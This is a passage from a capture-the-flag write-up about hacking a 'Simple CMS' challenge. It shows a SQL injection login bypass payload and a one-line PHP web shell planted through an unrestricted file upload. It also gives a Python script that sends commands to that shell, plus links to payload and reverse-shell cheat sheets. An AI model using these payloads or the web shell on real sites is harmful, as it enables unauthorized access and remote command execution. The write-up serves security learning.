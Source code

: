 ![](/uploads/{{ page.permalink }}/ss23.webp)

In case of a failed login attempt, there is a message on the page that says "Incorrect username or password. Please try again.". I configured the Intruder to flag the responses that contain that message.

![](/uploads/{{ page.permalink }}/ss24.webp)

Everything was ready, so I started the attack.

6 requests later and I hit something!

![](/uploads/{{ page.permalink }}/ss25.webp)

This response had the status code 302, a different length and no failed login attempt message.

I went to the login page to login using the same payload (`' or 1=1 limit 1 -- -+`).

![](/uploads/{{ page.permalink }}/ss26.webp)

And it worked, the flag was right there on the page.

## Simple CMS - Part 2 — 50 points

![](/uploads/{{ page.permalink }}/ss27.webp)

Hacking the simple CMS continues in this challenge. The goal is to get `user.txt`.

I explored what I can do as an admin, and it seems that the only functionality is adding new posts.

![](/uploads/{{ page.permalink }}/ss28.webp)

As soon as I saw uploading files, I figured that this challenge has something to do with file uploads. There is nothing much left in the app — this CMS is indeed fairly simple.

I was already thinking about uploading a PHP file with manipulated magic bytes to bypass the file upload restrictions, but after playing around and uploading different files I realized that there are no restrictions at all. I could upload a PHP file and it would be stored in the `/img/` folder, no questions asked.

And that's what I did.

I uploaded a simple web shell. It executes a command from the `cmd` query parameter and displays its output on the page.
```php
<?php passthru($_GET['cmd']); ?>
```

It was available at `/img/shell.php`

![](/uploads/{{ page.permalink }}/ss29.webp)

I also wrote this quick Python script to make executing commands easier.

```py
import requests
import urllib.parse

while True:
    command = urllib.parse.quote_plus(input("> "))
    response = requests.get("https://16daa14e273543ccedf42c348aaea527bf7b0dc0.next.avatao-challenge.com/img/shell.php?cmd=" + command)
    print(response.text)
```


[avatao]: https://avatao.com/
[aes]: https://en.wikipedia.org/wiki/Advanced_Encryption_Standard
[block-cipher-modes]: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Initialization_vector_(IV)
[ecsc]: https://www.ecsc2022.eu/
[blockchain]: https://www.blockchain.com/btc/address/1E5SyMx6xbLo2W2f8Eih9bnGUf3Ud7rgjW
[blockchain-transaction]: https://www.blockchain.com/btc/tx/4dc1213675daf6f2599723e26dbcd136f06463e45ae88c4a9553574b52dd4c82
[rapidtables]: https://www.rapidtables.com/convert/number/hex-to-ascii.html
[cyberchef]: https://gchq.github.io/CyberChef
[explainshell]: https://explainshell.com/explain?cmd=nmap+-sC+-sV+-oA+bountyhounter+10.10.11.100
[burp]: https://portswigger.net/burp/communitydownload
[sqli-payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
[reverseshells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
[steghide]: http://steghide.sourceforge.net/
[stegsolve]: https://wiki.bi0s.in/steganography/stegsolve/
[jstego]: https://github.com/kumarmah/JStego
[stegoveritas]: https://github.com/bannsec/stegoVeritas
[redbull]: https://www.redbull.com/us-en/max-verstappen-f1-kitzbuhel-pov-video
[uncompyle6]: https://pypi.org/project/uncompyle6/
[jtr]: https://www.openwall.com/john/